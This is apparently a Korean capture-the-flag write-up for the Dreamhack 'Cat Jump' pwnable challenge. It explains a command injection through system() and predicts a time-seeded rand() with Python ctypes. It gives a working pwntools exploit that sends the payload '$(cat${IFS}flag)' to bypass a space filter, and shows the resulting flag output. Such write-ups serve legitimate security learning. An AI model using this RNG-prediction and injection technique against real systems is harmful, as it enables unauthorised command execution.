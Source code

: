 ```yaml
---
title: "[Dreamhack CTF Season 2 #11] Cat Jump writeup"
date: 2023-01-29 21:56:00 +09:00
categories: [CTF, PWNABLE]
tags: [ctf]
---
```

random 으로 생성되는 값에 따라 생성되는 왼쪽/오른쪽 정답을 37회 맞추면 command injection을 수행할 수 있다.

```c
// L42
char cmd_fmt[] = "echo \"%s\" > /tmp/cat_db";
```

```c
// L98
    snprintf(cmd, sizeof(cmd), cmd_fmt, cat_name);
    system(cmd);

    printf("goodjob! ");
    system("cat /tmp/cat_db");
```

이제, 고양이가 점프하는 게임을 37회 이겨야 하는데, 정답을 생성하는 랜덤 함수가 `srand(time(NULL))` 및 `rand()` 이다.

즉, 정답을 만드는 함수의 시드가 시간이기 때문에 서버에 접속하는 동시에 time seed를 만들어내고, pythoon ctypes로 rand()를 호출해주면 서버와 동일한 결과 값을 획득할 수 있다.

다만, 여기서 주의해야할 점은 만약 `srand(time(NULL))` 에 의해 값이 [1, 2, 3, 4, 5] 로 만들어졌을 경우 값을 하나씩 iterate 하여 사용하는데(1, 2, 3, 4, 5, ...), 고양이 점프 게임에서는 한 루프에 `rand()`를 (1) 답을 입력 받기 전, (2) 답을 입력한 후에 캣닢을 줄지 말지 결정하는 루틴 총 두번 수행한다.

때문에 exploit할 때 한 루프에 `rand()` 가 두번 호출될 수 있도록 작성해야 한다.

풀이는 아래와 같다.

```python
from pwn import *
from ctypes import *
from ctypes.util import find_library
import base64
import time


p = remote('host3.dreamhack.games', 17969)
# p = process('./deploy/cat_jump')

c = CDLL(find_library('/lib/x86_64-linux-gnu/libc.so.6'))
c.srand(c.time(0))

obstacle = c.rand() % 2

p.recvuntil(b"left jump='h', right jump='j':")

if obstacle == 0:
    p.sendline(bytes('l', 'utf-8'))
elif obstacle == 1:
    p.sendline(bytes('h', 'utf-8'))

for i in range(36):
    try:
        recv = p.recvuntil(b":")
        c.rand()
        obstacle = c.rand() % 2
        print(recv.decode('utf-8'))
    except:
        print()
        p.interactive()

    if(obstacle == 0):
        p.sendline(bytes('l', 'utf-8'))
    if(obstacle == 1):
        p.sendline(bytes('h', 'utf-8'))

recv = p.recvuntil(b": ")
print(recv)
p.sendline(bytes('$(cat${IFS}flag)', 'utf-8'))
p.interactive()
```

command injeciton 하는 부분은 echo에 들어가는 문자열을 command substitution 하여 flag를 읽을 수 있도록 해주자. 문제 바이너리에서는 해당 부분에 띄어쓰기를 허용하지 않으므로 `${IFS}` 를 사용하는 등 잘 우회해보자.

```
 the cat jumped successfully! 🐱
left jump='h', right jump='j':
 the cat jumped successfully! 🐱
left jump='h', right jump='j':
 the cat jumped successfully! 🐱
left jump='h', right jump='j':
 the cat jumped successfully! 🐱
left jump='h', right jump='j':
 the cat jumped successfully! 🐱
the cat found and ate some catnip! 😽
left jump='h', right jump='j':
 the cat powered up and is invincible! nothing cannot stop! 🐈
left jump='h', right jump='j':
 the cat powered up and is invincible! nothing cannot stop! 🐈
left jump='h', right jump='j':
 the cat powered up and is invincible! nothing cannot stop! 🐈
left jump='h', right jump='j':
your cat has reached the roof!
let people know your cat's name 😼: 
[*] Switching to interactive mode
goodjob! DH{da65478323e88390957aee8177eb3cf6e60a2a6b486a76d46fc4d94ec785bb48}
[*] Got EOF while reading in interactive
```